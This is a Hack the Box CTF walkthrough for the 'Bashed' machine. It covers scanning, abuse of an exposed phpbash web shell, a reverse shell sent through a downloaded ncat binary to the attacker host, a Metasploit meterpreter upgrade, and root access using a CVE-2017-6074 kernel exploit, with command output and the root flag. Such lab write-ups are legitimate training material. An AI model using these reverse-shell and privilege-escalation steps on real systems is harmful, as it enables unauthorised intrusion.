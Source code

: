 ```yaml
---
title: Bashed, Hack the Box CTF Walkthrough
description: 
tag: CTF
image: /assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/bashed.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Bashed is an easy level CTF challenge from HTB, solved with an initial user compromise through a developer misconfiguration and privilege escalation with the Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation Exploit"
card: card-2
---
```


# Overview
<a href="https://app.hackthebox.eu/machines/118" class="highlighted">Bashed</a> is a boot to root CTF from the Hack the Box archives. This was one of my favorite retired HTB challenges so far. The challenge involves initial compromise using a developer's misconfigured server and requires significant more work to escalate privileges to root. This challenge forced me to think outside the box for managing shells and was overall a good CTF.  



## Enumeration  

First, I conducted a basic nmap scan to enumerate open ports and services running on the target machine. The scan revealed an apache webserver was running on port 80.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ nmap -sV --top-ports 200 10.10.10.68           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 09:06 EST
Nmap scan report for 10.10.10.68
Host is up (0.035s latency).
Not shown: 199 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
```  

## Web Application Testing   

Nexct, I launched BurpSuite and a firefox browser to being inspecting the target's web application. In the background, I started `dirb` a directory brute forcing tool. The resulting dirb scan revealed a directory called `dev`.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ dirb http://10.10.10.68         

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  5 09:10:15 2021
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                                                          
==> DIRECTORY: http://10.10.10.68/dev/                                                                                                          
==> DIRECTORY: http://10.10.10.68/fonts/                                                                                                        
==> DIRECTORY: http://10.10.10.68/images/                                                                                                       
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                                            
==> DIRECTORY: http://10.10.10.68/js/                                                                                                           
==> DIRECTORY: http://10.10.10.68/php/                                                                                                          
+ http://10.10.10.68/server-status (CODE:403|SIZE:299)                                                                                          
==> DIRECTORY: http://10.10.10.68/uploads/    
```  

## Exploit Developer Tools  

After reading the index page of the website, I understood the server was also being used to develop the tool [php bash](https://github.com/Arrexel/phpbash). Browsing the /dev path shows that indeed, a working version of phpbash is running on the target server. The program allows a user to interact with a bash like terminal through the browser itself. I used this terminal to find the user flag, which was located at `/home/arrexel`.  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/user-flag.png">
    </div>
</div>
<br/>  


## Privilege Escalation  

To start the privilege escalation process, I wanted to upgrade my shell from the phpBash shell to a meterpreter one. Unfortunately, when trying to send a reverse shell to my attacker machine with `netcat`, an error message occured stating that the -e option was not available. This was because the installed version of netcat was the BSD flavor (netcat-openBSD), only the traditional netcat (netcat-traditional) supports the -e option which is required to send a reverse shell. To get around this, I found a <a class="highlighted" href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat">linux binary version</a>of the traditional netcat. After downloading the binary, I put in the `/var/www/html` directory to serve with the apache webserver, then used `wget` to download the file to the target machine through the dev phpBash terminal. 

```bash
www-data@bashed:/var/www/html/uploads# wget 10.10.14.13/ncat-d
```  

Next, I started a listener on my attack machine with the multi/handler on metasploit to catch the reverse shell.  

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
```  
Once the handler was started, I used the the phpBash sell to issue a reverse shell through the uploaded ncat binary. 

```bash
www-data@bashed:./ncat-d 10.10.14.13 4444 -e /bin/bash
```  


```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.68:48554) at 2021-03-05 18:34:33 -0500
```  

### Upgrading to Meterpreter Shell

Once I recieved the reverse shell, I background it with the cntl-z option. To upgrade this basic shell to a meterpreter one, I used the `multi/manage/shell_to_meterpreter` module. After configuring the necessary options, I executed the module and started the meterpreter session.  

```bash
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.13:4433 
[*] Sending stage (980808 bytes) to 10.10.10.68
[*] Meterpreter session 2 opened (10.10.14.13:4433 -> 10.10.10.68:42086) at 2021-03-05 18:38:50 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
```  

## Privilege Escalation via CVE-2017-6074

The last stage to escalate privileges was to find a public exploit that would work against the linux kernel. Some online research revealed that the Ubuntu 16.04 (Linux 4.4.0-62-generic) kernel being used by the target could be vulnerable to. CVE-2017-6074. I downloaded a proof of concept from <a class="highlighted" href="https://www.exploit-db.com/exploits/41458">exploi-db</a>. Using `GCC`, I compiled the exploit, then uploaded it to the target using the `upload` meterpreter command back in the metepreter session.  


```bash
meterpreter > upload /home/kali/Documents/htb/bashed/CVE-2017-6074
[*] uploading  : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] Uploaded -1.00 B of 23.19 KiB (-0.0%): /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] uploaded   : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
meterpreter > chmod 777 CVE-2017-6074 
meterpreter > shell
Process 819 created.
Channel 2 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:~/html/uploads$ 


www-data@bashed:~/html/uploads$ whoami
whoami
www-data
www-data@bashed:~/html/uploads$ ./CVE-2017-6074
./CVE-2017-6074
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x564e7dc912aa
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@bashed:/var/www/html/uploads# whoami
whoami
root
root@bashed:/var/www/html/uploads# cat /root/root.txt
cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```


